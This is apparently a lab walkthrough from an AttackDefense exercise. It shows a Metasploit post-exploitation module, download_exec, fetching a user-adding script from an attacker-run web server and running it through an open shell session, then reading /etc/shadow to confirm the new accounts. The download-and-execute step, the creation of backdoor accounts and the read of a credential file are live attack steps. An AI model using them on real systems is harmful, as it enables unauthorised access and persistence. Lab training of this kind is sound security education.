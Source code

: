 Test this reverse shell by creating a script that adds users
```
root@attackdefense:~# cat test.sh
useradd hacker
useradd test
useradd john
```

Start apache server with script available
```
root@attackdefense:~# /etc/init.d/apache2 start
[ ok ] Starting Apache httpd web server: apache2.
root@attackdefense:~# cp test.sh /var/www/html/
```

Use download executables module to get that script
```
msf5 post(linux/manage/download_exec) > options

Module options (post/linux/manage/download_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.
   URL                       yes       Full URL of file to download.

msf5 post(linux/manage/download_exec) > set SESSION 1
SESSION => 1
msf5 post(linux/manage/download_exec) > set URL http://192.30.131.2/test.sh
URL => http://192.30.131.2/test.sh
msf5 post(linux/manage/download_exec) > run

[!] SESSION may not be compatible with this module.
[*] Checking if curl exists in the path...
[+] curl available, using it
[*] Checking if bash exists in the path...
[+] bash available, using it
[*] Post module execution completed
```

Now interact with the shell to check the shadow file - we see new users added
```
msf5 post(linux/manage/download_exec) > sessions -i 1
[*] Starting interaction with 1...

cat /etc/shadow
root:*:17774:0:99999:7:::
daemon:*:17774:0:99999:7:::
bin:*:17774:0:99999:7:::

...

hacker:!:18749:0:99999:7:::
test:!:18749:0:99999:7:::
john:!:18749:0:99999:7:::
```


